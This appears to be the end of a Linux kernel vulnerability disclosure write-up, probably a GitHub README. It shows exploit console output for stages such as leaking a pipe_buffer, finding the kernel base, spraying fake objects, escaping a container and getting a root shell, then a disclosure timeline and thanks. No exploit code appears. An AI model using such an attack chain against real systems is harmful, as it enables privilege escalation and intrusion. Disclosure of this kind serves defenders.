 ```sh
[*] Leaking and freeing pipe_buffer object...
[+] anon_pipe_buf_ops: ffffffffa1e78380
[+] kbase_addr: ffffffffa0e00000

[+] STAGE 4: Kernel code execution
[*] Spraying fake pipe_buffer objects...
[*] Releasing pipe_buffer objects...
[*] Checking for root...
[+] Root privileges gained.

[+] STAGE 5: Post-exploitation
[*] Escaping container...
[*] Cleaning up...
[*] Popping root shell...
root@theflow:/# id
uid=0(root) gid=0(root) groups=0(root)
root@theflow:/#
```

## Timeline

2020-04-06 - Vulnerability reported to security@kernel.org.  
2020-04-13 - Patch merged upstream.  
2020-07-07 - Public disclosure.

## Thanks

Eduardo Vela  
Francis Perron  
Jann Horn
